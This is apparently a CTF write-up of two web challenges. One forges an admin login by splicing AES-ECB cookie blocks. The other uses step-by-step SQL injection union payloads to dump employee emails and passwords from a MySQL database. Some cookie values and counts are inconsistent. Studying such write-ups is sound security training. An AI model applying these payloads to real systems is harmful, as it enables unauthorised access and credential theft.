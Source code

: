 If we try to login with the username set to `admin` we receive the following error: `Hey, admins aren't allowed to log in during a CTF!`.

The main page of the challenge consists on a form that allow us to encrypt an image with `AES-256`. From the [penguin](https://github.com/robertdavidgraham/ecb-penguin) we understand that the encryption is made in ECB mode. The use of ECB mode implies that equal blocks are encrypted in the same ciphertext. If the username is contained in our cookie, by changing the username block to the one of the admin cookie we are able to login as admin!

First, we generate two fresh `auth` cookie by logging in three times:

- `admon` -> `+UYTW+4246JXbTNBJxvQFpM22GUNDsWmb1eyJfuOhBlxQ5Q4cXM0bXn8JuoS3J9OJ3oeCqtTs7FlNOzXWOu1dA==`
- `admon` -> `+UYTW+4246JXbTNBJxvQFpM22GUNDsWmb1eyJfuOhBn+eFpEz6WXnE2IUXRBIGAq1ZT15QlBfVG9smXMt1Sh3A==`
- `admow` -> `m05IKB6+a6SY1vncwOBTpJM22GUNDsWmb1eyJfuOhBnh3xsyyb0BjCv6FzJEJbAScYoLDlhsBdxJiX0kpZN7OQ==`

By comparing the first two cookies we see a difference in the last blocks. This probably means that it has to do with the time of generation/expiration, since the username is the same.
The last cookie, compared to the previous two, contains a difference on the first part. We can safely assume that the first part is the username.

By taking the first block of the admin cookie and the last part of our cookie, we can generate a valid login cookie with username `admin`!

`/SsLocjiwUwqJW7uuAaD2` + `pM22GUNDsWmb1eyJfuOhBloQnwLsg1jLXEWPfK2wrYSeYK33B7FQ4qeQVmBc9zRbw==` = `/SsLocjiwUwqJW7uuAaD2pM22GUNDsWmb1eyJfuOhBloQnwLsg1jLXEWPfK2wrYSeYK33B7FQ4qeQVmBc9zRbw==`
By using this cookie we logged in as admin and get the flag.

## wolfhowl

The challenge description states "Log into WolfHowl to get the flag".

If we try to log in we get the error "Registration Disabled", so we understand that we have to find another way to obtain access.

By playing with the search form we can clearly see that the query `"` causes the error `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"""' at line 1 `.

First, we search for the number of parameters in the select statement. To do so, we change the order by until we get an error:

- `" order by 4 -- |` is okay;
- `" order by 5 -- |` gives an error;

Now we can estrapolate tables and column with a union!
With the payload `" union select 1,2,3,4 -- |` we understand that the first three parameters are visible in the response.
With the payload `" union select table_name,group_concat(column_name),3, 4 from information_schema.columns group by table_name-- |` we get all table and column names.
We notice an employee table with fields EmployeeId,LastName,FirstName,Title,ReportsTo,BirthDate,HireDate,Address,City,State,Country,PostalCode,Phone,Fax,Email,Password.

So, we fetch the emails and passwords with the query `" union select email, password, 3, 4 from employee -- |` and we are able to log in and get the flag.
